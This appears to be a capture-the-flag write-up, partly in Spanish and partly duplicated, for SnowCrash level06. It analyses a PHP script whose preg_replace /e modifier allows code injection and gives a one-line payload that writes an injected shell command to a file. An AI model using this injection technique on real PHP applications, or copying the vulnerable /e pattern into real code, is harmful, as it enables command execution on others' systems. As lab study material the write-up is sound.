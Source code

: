 ### LEVEL06

- We have one .php script
    ```php
    level06@SnowCrash:~$ cat level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
    ```
- The function y($m) hace una sustitición de "." por " x " y "@" por " y"
- The fucntion x($y, $z)
    ```php
    function x($y, $z) {
    $a = file_get_contents($y); // Lee el contenido del archivo especificado en $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // Realiza sustituciones usando una expresión regular
    $a = preg_replace("/\[/", "(", $a); // Sustituye los corchetes [ por paréntesis (
    $a = preg_replace("/\]/", ")", $a); // Sustituye los corchetes ] por paréntesis )
    return $a; // Retorna el contenido modificado del archivo
    }
    ```
- 

---

### LEVEL06

- Tenemos un script en .php
    ```php
    level06@SnowCrash:~$ cat level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
    ```
- La funcion y($m) hace una sustitición de "." por " x " y "@" por " y"
- La fucnion x($y, $z)
    ```php
    function x($y, $z) {
    $a = file_get_contents($y); // Lee el contenido del archivo especificado en $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // Realiza sustituciones usando una expresión regular
    $a = preg_replace("/\[/", "(", $a); // Sustituye los corchetes [ por paréntesis (
    $a = preg_replace("/\]/", ")", $a); // Sustituye los corchetes ] por paréntesis )
    return $a; // Retorna el contenido modificado del archivo
    }
    ```
- El vector de ataque está en la línea `$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`
- El `/e` permite que se ejecute la regex como código php
- Vamos a intentar inyectar el `getflag`
- Necesitamos un archivo para que lo lea el script
    1. Que empiece por `[x `
    1. Luego el comando que queremos ejecutar `... ${`getflag`}`
    1. Y cerramos corchete `]`
    ```bash
    echo '[x ${`getflag`}]' > /tmp/a
    ```
